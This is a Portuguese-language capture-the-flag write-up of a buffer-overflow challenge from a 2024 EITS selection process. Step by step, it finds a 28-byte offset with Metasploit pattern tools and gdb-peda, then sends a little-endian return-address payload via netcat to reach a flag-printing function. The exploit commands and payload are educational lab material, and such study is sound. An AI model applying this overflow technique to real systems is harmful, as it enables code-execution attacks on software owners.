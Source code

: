 # CTF - Processo seletivo 2ºSemestre 2024 EITS

Gabriel Monteiro - SirMonteiro

## Exploração de Binário (binexp) - Buffer Vazando

O desafio consiste em mandar uma string para uma conexão utilizando o utilitário **netcat** para conseguir a flag, o desafio forneceu o código fonte e o binário, ambos com uma flag genérica.

Pelo nome, foi deduzido que o desafio consiste em um ataque de Buffer Overflow no código.

O primeiro passo foi descobrir o funcionamento básico do programa, assim executando, e analisando o código fonte, foi notado que o programa já informa o endereço de memória da função que escreve na tela a flag (**Vitoria**), pede para o usuário inserir uma string que inicialmente é armazenada em uma cadeia de char alocado dinamicamente com o "_scanf_", e assim, executa uma função que concatena uma mensagem a cadeia de caracteres e escreve o resultado. O ponto de vulnerabilidade do programa é identificado no momento que é copiado uma string de tamanho indeterminado em um buffer de 32 caracteres.

Dessa forma é necessário saber a quantidade de caracteres até o limite do buffer e como manipular a invasão de memória de modo a fazer o programa executar a função "**Vitoria**".

Para descobrir o tamanho (offset) do buffer foi utilizado duas ferramentas do framework do metasploit, juntamente com o debugger gdb, com a extensão peda (Python Exploit Development Assistance), para a instalação no ambiente do Arch Linux é possível com:

```bash
pacman -Syu metasploit gdb peda
echo "source /usr/share/peda/peda.py" >> ~/.gdbinit
```

Deduzindo que o buffer não teria um _offset_ maior que 100 caracteres, foi executado a ferramenta **pattern_create.rb**:

```console
foo@arch:~$ /opt/metasploit/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Foi executado o binário disponibilizado: **desafio**, com o **gdb**:

```bash
gdb desafio
```

no terminal do **gdb-peda** foi executado o seguinte comando para o debugger rodar o binário:

```console
gdb-peda$ run
Starting program: desafio
```

e, assim, inserido o padrão gerado anteriormente:

```console
O alvo: 0x80497a5
Mensagem
>Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

O debugger informou que o vazamento de memória ocorreu no endereço **0x62413961** como mostrado abaixo:

```console
Stopped reason: SIGSEGV
0x62413961 in ?? ()
gdb-peda$
```

com esse endereço é executado a ferramenta **pattern_offset.rb**:

```console
foo@arch:~$ /opt/metasploit/tools/exploit/pattern_offset.rb -l 100 -q 62413961
[*] Exact match at offset 28
```

Portanto o tamanho máximo do buffer (offset) é de 28 caracteres.

Para gerar o payload é necessário codificar o endereço da função **Vitoria** (alvo), para ser passado em uma cadeia de caracteres no _endianness_ da arquitetura x86, nesse caso, little-endian (LE), dessa forma o endereço **0x80497a5** dado pelo programa codificado para compor o payload fica, `\xa5\x97\x04\x08`.

Assim, o payload inteiro seria, qualquer 28 caracteres da tabela ASCII para encher o buffer e o endereço da função alvo codificado: `AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08`.

Finalmente para conseguir a flag foi executado o seguinte comando:

```shell
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08' | nc <insert IP> <insert port>
```

```console
foo@arch:~$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08' | nc <insert IP> <insert port>
O alvo: 0x80497a5
Mensagem
> A mensagem eh: "AAAAAAAAAAAAAAAAAAAAAAAAAAA"
eits{v1t0r14_1lc4nc4d4!}
```

Para os estudos até chegar a flag, foi usada as seguintes referências:
https://0xrick.github.io/binary-exploitation/bof3
https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html
https://upload.wikimedia.org/wikipedia/commons/1/1b/ASCII-Table-wide.svg
https://github.com/longld/peda/issues/142
